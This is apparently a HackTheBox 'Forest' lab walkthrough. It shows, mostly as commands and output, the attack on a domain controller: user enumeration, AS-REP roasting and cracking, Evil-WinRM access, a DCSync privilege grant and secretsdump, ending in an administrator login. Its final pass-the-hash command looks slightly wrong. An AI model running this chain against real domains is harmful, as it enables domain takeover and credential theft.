

# Machine

 


## Summary

* Windows Domain Controller

## Tools needed

* Kerbrute
* John or Hashcat
* Evil-WinRM
* Bloodhound
* PowerView
* SecretsDump

## Detection

As always, start with nmap.

```
$ nmap -sC -sV -oA nmap 10.10.10.161
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 21:20 CDT
Nmap scan report for 10.10.10.161
Host is up (0.067s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-09-28 02:29:23Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h28m57s, deviation: 4h02m30s, median: 8m56s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2021-09-27T19:29:31-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-28T02:29:33
|_  start_date: 2021-09-28T02:25:20

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.46 seconds

```

Looks like a domain controller (port 88 for Kerberos, LDAP 389, etc).  Noticing RPC / SMB port 445 is open, we can try an RCP call with Null user.

```
$ rpcclient -U "" -N 10.10.10.161
rpcclient $>
```

Checking further, list out users.

```
$ echo enumdomusers | rpcclient -U "" -N 10.10.10.161
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Let's just extract the users to a text file.

```
$ echo enumdomusers | rpcclient -U "" -N 10.10.10.161 | cut -f2 -d'[' | cut -f1 -d']' > users.log
$ cat users.log
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Download the latest Kerbrute package from Github.

```
$ git clone https://github.com/TarlogicSecurity/kerbrute
Cloning into 'kerbrute'...
remote: Enumerating objects: 86, done.
remote: Counting objects: 100% (67/67), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 86 (delta 25), reused 60 (delta 21), pack-reused 19
Receiving objects: 100% (86/86), 34.09 KiB | 793.00 KiB/s, done.
Resolving deltas: 100% (30/30), done.

$ python3 kerbrute/kerbrute.py -users users.log -dc-ip 10.10.10.161 -domain htb.local 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[\*] Valid user => Administrator
[\*] Blocked/Disabled user => Guest
[\*] Blocked/Disabled user => krbtgt
[\*] Blocked/Disabled user => DefaultAccount
[\*] Blocked/Disabled user => $331000-VK4ADACQNUCA
[\*] Blocked/Disabled user => SM_2c8eef0a09b545acb
[\*] Blocked/Disabled user => SM_ca8c2ed5bdab4dc9b
[\*] Blocked/Disabled user => SM_75a538d3025e4db9a
[\*] Blocked/Disabled user => SM_681f53d4942840e18
[\*] Blocked/Disabled user => SM_1b41c9286325456bb
[\*] Blocked/Disabled user => SM_9b69f1b9d2cc45549
[\*] Blocked/Disabled user => SM_7c96b981967141ebb
[\*] Blocked/Disabled user => SM_c75ee099d0a64c91b
[\*] Blocked/Disabled user => SM_1ffab36a2f5f479cb
[\*] Valid user => HealthMailboxc3d7722
[\*] Valid user => HealthMailboxfc9daad
[\*] Valid user => HealthMailboxc0a90c9
[\*] Valid user => HealthMailbox670628e
[\*] Valid user => HealthMailbox968e74d
[\*] Valid user => HealthMailbox6ded678
[\*] Valid user => HealthMailbox83d6781
[\*] Valid user => HealthMailboxfd87238
[\*] Valid user => HealthMailboxb01ac64
[\*] Valid user => HealthMailbox7108a4e
[\*] Valid user => HealthMailbox0659cc1
[\*] Valid user => sebastien
[\*] Valid user => lucinda
[\*] Valid user => svc-alfresco [NOT PREAUTH]
[\*] Valid user => andy
[\*] Valid user => mark
[\*] Valid user => santi
[\*] No passwords were discovered :'(
```
## Exploitation

User svc-alfresco doesn't have Kerberos Pre-Authentication enabled to prevent a dummy request for authentication.  We should be able to get the Ticket Granting Ticket (TGT) with Impacket. 

```
$ /usr/bin/impacket-GetNPUsers -format john -no-pass -dc-ip 10.10.10.161 htb.local/svc-alfresco 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[\*] Getting TGT for svc-alfresco
$krb5asrep$svc-alfresco@HTB.LOCAL:6d4fb461aa2ea95b12ccfb3da6870ecc$48aefe8f9e6b1b62a984d9f12250bedeec5e7618de943b3959a65dbd0b103d192bdb1feb14637dbbd9ac4c754554a75bb22c5c9fb23b98ca93b2c9f088ee0661e155136bc3220ed2e7a5c0389d35386e6757dff9411ff902f9c63aaac8f2b967943d795984aaa725305943be880bb470b5f2414c37610bc6a1726afd5132bb028426d611a7d0bd2c663966e1bc76fc2f37fa691249946599c11a1701b095b19a6cf57a469e8548e5d4907d54eef96d01d5ac86f1323ac01ba69f50de461c3ee8d5f063665a749d2f464aa5ca853ff4f2a7ec4d5de412488ef2e0e6e95c496151bb2c52e524d3
```

Use hashcat or john to try cracking the hash

```
$ john --list=formats | grep -i krb
krb4, krb5, krb5asrep, krb5pa-sha1, krb5tgs, krb5-17, krb5-18, krb5-3,
mschapv2-naive, krb5pa-md5, mssql, mssql05, mssql12, multibit, mysqlna,

$ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hash.log 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB.LOCAL)
1g 0:00:00:03 DONE (2021-09-27 22:57) 0.3030g/s 1238Kp/s 1238Kc/s 1238KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Hash cracked.  Use Evil WinRM to get in.

```
$ /usr/local/bin/evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> cd ../Desktop
\*Evil-WinRM\* PS C:\Users\svc-alfresco\Desktop> dir
    Directory: C:\Users\svc-alfresco\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/27/2021   7:25 PM             34 user.txt

```


## Privilege Escalation

We could run Sharphound on the Windows server directly with a .ps1 script, but an alternative way is with a Python based verion of Bloodhound.

```
$ git clone https://github.com/fox-it/BloodHound.py.git   
Cloning into 'BloodHound.py'...
remote: Enumerating objects: 940, done.
remote: Counting objects: 100% (82/82), done.
remote: Compressing objects: 100% (58/58), done.
remote: Total 940 (delta 40), reused 58 (delta 23), pack-reused 858
Receiving objects: 100% (940/940), 423.69 KiB | 1.67 MiB/s, done.
Resolving deltas: 100% (619/619), done.

$ python3 BloodHound.py/bloodhound.py -h
usage: bloodhound.py [-h] [-c COLLECTIONMETHOD] [-u USERNAME] [-p PASSWORD] [-k] [--hashes HASHES] [-ns NAMESERVER] [--dns-tcp] [--dns-timeout DNS_TIMEOUT]
                     [-d DOMAIN] [-dc HOST] [-gc HOST] [-w WORKERS] [-v] [--disable-pooling] [--disable-autogc] [--zip]

$ python3 BloodHound.py/bloodhound.py -u svc-alfresco -p s3rvice -c all -d htb.local -dc forest.htb.local -ns 10.10.10.161
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: forest.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: forest.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 31 users
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 15S

$ ls \*.json
20210927232713_computers.json  20210927232713_domains.json  20210927232713_groups.json  20210927232713_users.json

```

Launch bloodhound at the command line.


 


After logging in, search for user `svc-alfresco`, right-click, Set as Starting Node.  Then go to Analysis and click "Find shortest path to domain admins".


 

User `svc-alfresco` is a member of the Account Operators AD group and we have the abilty to add a user to the Exchange Windows Permissions group.  From there we use PowerView to give the user WriteDACL object permissions on the domain.
* GenericAll - full rights to the object (add users to a group or reset user's password)
* GenericWrite - update object's attributes (i.e logon script)
* WriteOwner - change object owner to attacker controlled user take over the object
* WriteDACL - modify object's ACEs and give attacker full control right over the object
* AllExtendedRights - ability to add user to a group or reset password
* ForceChangePassword - ability to change user's password
* Self (Self-Membership) - ability to add yourself to a group


```
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint


\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> net user "abc" "abc123456" /add /domain
The command completed successfully.


\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" abc /add /domain
The command completed successfully.

\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> net user abc /domain
User name                    abc
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/5/2021 8:31:04 PM
Password expires             Never
Password changeable          11/6/2021 8:31:04 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   11/5/2021 8:35:02 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     i\*Exchange Windows Perm\*Domain Users
The command completed successfully.


\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1


\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> Get-Command | FindStr Acl
Function        Set-SmbPathAcl                                     2.0.0.0    SmbShare
Cmdlet          Get-Acl                                            3.0.0.0    Microsoft.PowerShell.Security
Cmdlet          Set-Acl                                            3.0.0.0    Microsoft.PowerShell.Security

\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1

\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> Get-Command | FindStr Acl
Alias           Add-ObjectAcl
Alias           Get-ObjectAcl
Function        Add-DomainObjectAcl
Function        Find-InterestingDomainAcl
Function        Get-DomainObjectAcl
Function        Get-PathAcl
Function        Remove-DomainObjectAcl
Function        Set-SmbPathAcl                                     2.0.0.0    SmbShare
Cmdlet          Get-Acl                                            3.0.0.0    Microsoft.PowerShell.Security
Cmdlet          Set-Acl                                            3.0.0.0    Microsoft.PowerShell.Security


\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> $pass = ConvertTo-SecureString "abc123456" -AsPlainText -Force
\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb.local\abc', $pass)
\*Evil-WinRM\* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity abc -Rights DCSync

```

After the DCSync rights are added we can run `secretsdump` to check for the administrator's hash.

```
$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.10.10.161  'htb.local/abc:abc123456@10.10.10.161' | grep -i administrator
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b


$ evil-winrm -i 10.10.10.161 -u  Administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint

\*Evil-WinRM\* PS C:\Users\Administrator\Documents> whoami
htb\administrator

\*Evil-WinRM\* PS C:\Users\Administrator\Documents> cd ..\Desktop

\*Evil-WinRM\* PS C:\Users\Administrator\Desktop> ls
    Directory: C:\Users\Administrator\Desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/5/2021   7:42 PM             34 root.txt


```

